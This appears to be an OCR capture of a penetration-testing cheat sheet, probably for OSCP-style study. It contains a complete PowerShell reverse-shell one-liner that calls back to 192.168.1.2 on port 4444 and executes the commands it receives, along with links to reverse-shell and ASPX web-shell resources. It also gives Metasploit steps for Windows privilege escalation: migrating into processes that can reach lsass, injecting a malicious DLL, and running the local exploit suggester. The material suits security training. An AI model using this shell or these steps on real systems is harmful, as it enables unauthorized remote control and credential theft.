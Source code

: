 | Reverse shells | [https:­//h­ack­ers­int­erv­iew.co­m/o­scp­/re­ver­se-­she­ll-­one­-li­ner­s-o­scp­-ch­eat­sheet/](https://hackersinterview.com/oscp/reverse-shell-one-liners-oscp-cheatsheet/) |
| Powershell reverse shell | powershell -nop -c "­$client = New-Object System.Ne­t.S­ock­ets.TC­PCl­ien­t('­192.16­8.1.2'­,44­44)­;$s­tream = $clien­t.G­etS­tre­am(­);[­byt­e[]­]$bytes = 0..655­35\|­%{0­};w­hil­e(($i = $strea­m.R­ead­($b­ytes, 0, $bytes.Le­ngth)) -ne 0){;$data = (New-O­bject -TypeName System.Te­xt.A­SC­IIE­nco­din­g).G­et­Str­ing­($b­ytes,0, $i);$s­endback = (iex $data 2>&1 \| Out-String );$sen­dback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sen­dbyte = ([text.en­cod­ing­]::­ASC­II).Ge­tBy­tes­($s­end­bac­k2)­;$s­tre­am.W­ri­te(­$se­ndb­yte­,0,­$se­ndb­yte.Le­ngt­h);­$st­rea­m.F­lus­h()­};$­cli­ent.Cl­ose­()" |
| Windows intera­ctive shell (ASPX Shell by LT) | [https:­//g­ith­ub.c­om­/xl­7de­v/W­ebS­hel­l/b­lob­/ma­ste­r/A­spx­/AS­PX%­20S­hel­l.aspx](https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx) |

### Windows Priv. Esc. || Metasploit Module

Name
Usage
Microsoft Remote Desktop (MSRDP)
Port no - 3389
Local Security Authority Subsystem Service
** lsass service
** The service respon­sible for authen­tic­ation within Windows.

** We generally infect a process with the migrate command in metasploit to infect a process that can commun­icate with lsass.exe and has permis­sions that are needed to interact

To exploit lsass we need to be **Same archit­ecture (living in) ** Same permis­sions

**In order to interact with lsass we need to be 'living in' a process that is the same archit­ecture as the lsass service (x64 in the case of this machine) and a process that has the same permis­sions as lsass.

Printer service
**spoolsv.exe
** The printer spool service
Living in as a process

** Often when we take over a running program we ultimately load another shared library into the program (a dll) which includes our malicious code. From this, we can spawn a new thread that hosts our shell.

msfconsole >> search <Pr­ogr­am/­Pro­ces­s>

Fire up msfconsole terminal and search for vulnerable exploit of a program or process

Select a exploit

** Select using #use <no>** Remeber to use #search options command and set them accord­ingly

Fire the exploit
**#run them after setting up options
Metasploit command center
**#getuid (user-id)**#sysinfo **#getprivs **#migrate -N PROCES­S_NAME
Local_­exploit V/S Remote­_ex­ploit

** A remote exploit works over a network and exploits the security vulner­ability without any prior access to the vulnerable system. A local exploit requires prior access to the vulnerable system and usually increases the privileges of the person running the exploit past those granted by the system admini­str­ator.

Local_­exploit (metas­ploit)
**run post/m­ult­i/r­eco­n/l­oca­l_e­xpl­oit­_su­ggester
** Results for potential escalation exploits.
** Local exploits require a session to be selected
Background a session (some privil­edge)
**#background
